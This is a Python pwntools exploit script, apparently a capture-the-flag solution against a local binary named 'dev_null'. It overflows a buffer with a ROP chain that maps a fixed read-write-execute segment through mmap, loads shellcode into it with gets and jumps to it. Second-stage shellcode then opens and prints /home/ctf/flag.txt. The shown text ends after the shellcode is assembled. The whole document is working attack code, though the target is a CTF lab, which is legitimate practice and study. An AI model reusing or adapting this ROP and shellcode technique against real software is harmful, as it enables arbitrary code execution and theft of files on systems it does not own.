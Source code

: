 ```python
from pwn import *
from time import time

#context.log_level = "debug"
context.terminal = "kitty"
context.binary = exe = ELF("./dev_null")

p = remote("localhost", 1337)

RWX_START = 0x200000
RWX_SIZE = 0x100000

# gadgets
POP_RDI = 0x0000000000413795
POP_RSI_RBP = 0x0000000000402acc
POP_RDX_RBX_R12_R13_RBP = 0x000000000046ddce # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
POP_RCX = 0x000000000044a3a3 #  pop rcx ; fiadd word ptr [rax] ; add bh, dh ; ret 0
POP_RAX = 0x000000000042193c
JMP_RAX = 0x000000000040195e

# stage 1 - rop chain to initalize an rwx segment
payload = b"A"*16

# create an rwx memory segment
# map it to a fix location, so we don't need to find a tricky mov rdi, rax gadget
# mmap(0x0, 0x1000000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED)
payload += p64(POP_RDI)
payload += p64(RWX_START)
payload += p64(POP_RSI_RBP)
payload += p64(RWX_SIZE) # memory map size
payload += b"B"*8 # junk to rbp
payload += p64(POP_RDX_RBX_R12_R13_RBP)
payload += p64(constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC) # rwx permissions
payload += b"C"*8 # junk to rbx
payload += b"D"*8 # junk to r12
payload += b"E"*8 # junk to r13
payload += b"F"*8 # junk to rbp
payload += p64(POP_RAX) # set rax to a valid memory address to avoid crash on pop rcx ; fiadd word ptr [rax]
payload += p64(0x413795) # just a random address
payload += p64(POP_RCX)
payload += p64(constants.MAP_ANONYMOUS | constants.MAP_PRIVATE | constants.MAP_FIXED) # flags
payload += p64(exe.sym["mmap"])

# fill the new memory segment with shellcode
payload += p64(POP_RDI)
payload += p64(RWX_START)
payload += p64(exe.sym["gets"])
payload += p64(JMP_RAX)

# stage 2 - shellcode
FLAG_PATH = "/home/ctf/flag.txt"
FLAG_MEMORY = 0x280010 # place somewhere where we have no chance to send 0x0a (\n)

sc = shellcraft.pushstr(FLAG_PATH)
sc += shellcraft.openat(0, "rsp", 0)
sc += shellcraft.read("rax", FLAG_MEMORY, 0x100)

sc += shellcraft.push(0x100)
sc += shellcraft.push(FLAG_MEMORY)
sc += shellcraft.pwritev2(1, "rsp", 1, -1, 0)

```